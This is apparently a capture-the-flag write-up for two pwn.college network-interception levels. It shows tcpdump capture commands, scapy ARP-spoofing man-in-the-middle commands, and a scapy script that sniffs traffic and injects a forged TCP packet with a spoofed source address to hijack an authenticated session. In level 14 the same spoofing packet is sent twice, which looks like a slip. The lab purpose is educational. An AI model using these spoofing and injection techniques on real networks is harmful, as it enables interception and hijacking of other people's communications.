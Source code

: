 +++
title = "Intercepting Communication"
weight = 0
slug="intercepting_communication"
description = "Using tcpdump, scapy, and ip for network shenanigans"
+++

# Level 13
Scapy has a thing to do literally this. First, start a tcpdump in the background:
```
tcpdump -i eth0 -A port 31337 -w cap.pcap &
```

Then, from the scapy terminal:
```
>>> arp_mitm('10.0.0.2', '10.0.0.4', iface='eth0')
```

Wait a few seconds for the capture, then read the flag from the pcap:
```
tcpdump -r cap.pcap -A | grep pwn
```

# Level 14
First we want to have both targets route their traffic through us so we can sniff it. To do this, we send some arp messages.

From the scapy terminal:
```
>>> my_mac = get_if_hwaddr('eth0')
>>> sendp(Ether(src=my_mac, dst='ff:ff:ff:ff:ff:ff')/ARP(op='is-at', hwsrc=my_mac, psrc='10.0.0.4'), iface='eth0')
>>> sendp(Ether(src=my_mac, dst='ff:ff:ff:ff:ff:ff')/ARP(op='is-at', hwsrc=my_mac, psrc='10.0.0.4'), iface='eth0')
```

This should route all traffic through our host, you can verify it is set up by checking with the arp command, you should see something like:
```
# arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
10.0.0.4                 ether   86:5c:4f:83:c9:57   C                     eth0
10.0.0.3                 ether   12:40:1d:de:bc:a4   C                     eth0
```

Running `tcpdump -A`, we can see their traffic. There is some sort of secret being sent for authentication, then a command. You can also just read "/challenge/run" to see the full details on the server and client code.

We need to sniff this traffic and then inject a `FLAG` command after the client has authenticated. We can write a scapy script for this:

``` py
from scapy.all import Raw, IP, TCP, sniff, send, ls

def packet_cb(packet):
    if packet.haslayer(Raw):
        raw_data = packet[Raw].load
        print(ls(packet[0][2]))
        if b'COMMAND' in raw_data:
            x = send(IP(dst='10.0.0.3', src='10.0.0.4')/TCP(sport=packet[0][2].dport, dport=packet[0][2].sport, flags='PA', seq=packet[0][2].ack, ack=packet[0][2].seq+1)/"FLAG\n")

sniff(prn=packet_cb, iface='eth0')
```

The main thing we care about above is getting the right seq value, as that is necessary for communicating properly. Another thing to note is I used ls for my printout since it was nice during debugging and development but it does clutter the output quite a bit. If you wanted it to be more clean you could just check for "pwn.college" in `raw_data` and print that out.
